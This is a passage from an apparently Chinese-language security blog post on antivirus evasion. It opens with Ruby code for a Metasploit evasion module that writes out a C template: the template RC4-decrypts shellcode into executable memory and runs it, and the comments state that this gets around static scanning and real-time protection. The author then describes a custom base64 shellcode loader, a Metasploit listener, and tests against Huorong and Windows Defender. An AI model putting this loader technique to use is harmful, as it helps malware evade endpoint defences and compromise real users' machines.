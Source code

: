 def c_template  
    @c_template ||= %Q|#include <Windows.h>  
#include <rc4.h>  
// The encrypted code allows us to get around static scanning  
#{get_payload[:c_format]}  

int main() {  
    int lpBufSize = sizeof(int) * #{get_payload[:size]};  
    LPVOID lpBuf = VirtualAlloc(NULL, lpBufSize, MEM_COMMIT,| Rapid7.com Encapsulating Antivirus (AV) Evasion Techniques - 20  
0x00000040);  
    memset(lpBuf, '', lpBufSize);  
    HANDLE proc = OpenProcess(0x1F0FFF, false, 4);  
    // Checking NULL allows us to get around Real-time protection  
    if (proc == NULL) {  
        RC4("#{rc4_key}", buf, (char*) lpBuf, #{get_payload[:size]});  
        void (*func)();  
        func = (void (*)()) lpBuf;  
        (void)(*func)();  
    }  

    return 0;  
}|  
    end  
    def run  
        vprint_line c_template  
        # The randomized code allows us to generate a unique EXE  
        bin = Metasploit::Framework::Compiler::Windows.compile_  
        random_c(c_template)  
        print_status("Compiled executable size: #{bin.length}")  
        file_create(bin)  
    end  
end  
{{< /highlight >}}
为了方便，笔者使用第一种方法来实现。

![](https://cdn.wtfsec.org/img/20200223183108.png)

这里我使用base64的加密方式，然后自行编写解码执行shellcode的客户端程序。

然后msf开启监听，这里使用msf5添加的handler指令直接添加一个listener。

![](https://cdn.wtfsec.org/img/20200223183120.png)

先查看我们写的客户端免杀效果如何。
- 火绒

	![](https://cdn.wtfsec.org/img/20200223183202.png)

- windows defender

	![](https://cdn.wtfsec.org/img/20200223183215.png)
